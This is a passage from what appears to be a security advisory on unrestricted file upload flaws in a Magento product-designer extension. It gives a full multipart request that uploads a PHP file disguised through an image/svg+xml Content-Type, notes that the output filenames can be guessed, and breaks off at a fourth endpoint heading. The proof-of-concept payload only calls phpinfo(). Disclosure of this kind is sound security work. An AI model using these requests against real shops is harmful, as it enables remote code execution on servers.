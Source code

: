 ### Response body (JSON)
```
{"status":"success","message":"Image have been successfully saved!","thumbnail_path":"https:\/\/testing.local.tld\/media\/pdp\/images\/thumbnail\/thumbnail_image_1479931179.php","filename":"thumbnail_image_1479931179.php"}
```

The uploaded file is placed in Magento's `media/pdp/images/thumbnail/` directory.  
The file's generated filename is returned in the response body.  
The file extension is taken from the `format` parameter without sanitization.

---

## Endpoint 3

### Request:
```
POST https://testing.local.tld/pdp/upload/uploadCustomImage/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="uploads[0]"; filename="somes.ttf.php"
Content-Type: image/svg+xml

<?php

phpinfo();

---------------------------acebdf13572468--
```

### Response body (JSON)
```
["https:\/\/testing.local.tld\/media\/pdp\/images\/upload\/1479934682-customupload.php"]
```

The uploaded file is placed in Magento's `media/pdp/images/upload/` directory.  
The file's generated filename is returned in the response body.  
The file's original extension (last split-on-dot token) is trusted as the output extension.  
The file's Content-Type must be specified as image/svg+xml to bypass file content checks.

Files with unsupported Content-Type will still be uploaded, even though the response will be an error.
In this case, the generated filename will have to be guessed.   
Guessing should not be difficult, as the generated filenames follow the `%d-customupload.%s` pattern, 
using the current UNIX timestamp as the prefix without any collision prevention.  

---

## Endpoint 4
